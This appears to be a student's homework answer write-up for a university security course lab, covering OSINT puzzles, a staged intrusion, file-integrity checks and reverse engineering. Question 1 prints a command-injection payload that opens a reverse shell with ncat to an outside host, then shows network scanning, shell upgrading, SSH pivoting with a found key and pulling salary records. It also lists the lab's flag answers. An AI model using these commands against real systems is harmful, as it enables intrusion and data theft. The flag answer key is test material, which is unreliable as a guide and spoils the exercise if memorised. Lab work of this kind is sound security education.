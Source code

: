 # hw5

## pointer

search the movie in Wiki, in view history, check resent edit

```html
In reviews, over 560 people think it's tinyurl dot com slash howie5
```

check this

```html
tinyurl.com/howie5
```

go to google photos, click on one photo, then check info of it, it will tell you location

```html
https://people.duke.edu/~tkb13/courses/ece560/go/sleepy.kept.photos
```

## Question 1: Full intrusion scenario

reversed shell, on linux server, netcat listen

```sh
netcat -l -p 6666
```

on web, input

```sh
;ncat vcm-16036.vm.duke.edu 6666 -e /bin/sh
```

then your linux will connect to web server

```sh
nmap 192.168.1.80/24
python3 -c 'import pty;pty.spawn("/bin/bash");'
ssh -i /home/ubuntu/.victimco.pem ubuntu@192.168.1.97

cd /usr/share/backup/employees-db
less load_employees.dump | grep Reginald
less load_salaries1.dump | grep 10590
```

extra credits

```sh
Golden ticket #1: TRUSTICO'S SHAMEFUL SECRET
Golden ticket #2: GOLDEN DOT DAT
Golden ticket #3: WELCOME TO WEB SERVER
Golden ticket #4: WELCOME TO ACCOUNTING
```

## Question 2: Endpoint security

```html
https://people.duke.edu/~tkb13/courses/ece560/go/10590-65536.html
```

## hashdeep

```sh
sudo hashdeep /var/log/ -r > before
sudo hashdeep -r -a -vv -k before /var/log
```

## 10 Reverse Engineering

```sh
__frame_friend_init_jumbo_plaza
```

i use cutter, check out the string section

